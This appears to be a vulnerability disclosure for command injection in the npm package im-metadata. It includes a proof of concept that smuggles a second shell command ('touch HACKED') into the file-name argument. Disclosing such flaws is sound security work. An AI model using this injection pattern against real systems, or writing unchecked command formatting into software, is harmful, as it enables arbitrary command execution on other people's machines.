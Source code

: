 
The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/Turistforeningen/node-im-metadata/blob/master/index.js#L39).
## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:

```js
// poc.js
var metadata = require('im-metadata');
metadata('test; touch HACKED; #', {}, function(){})

```
2. Check there aren't files called `HACKED`.
3. Execute the following commands in another terminal:

```bash
npm i im-metadata # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files - now `HACKED` has been created.

## References
- [GitHub Issue](https://github.com/Turistforeningen/node-im-metadata/issues/11)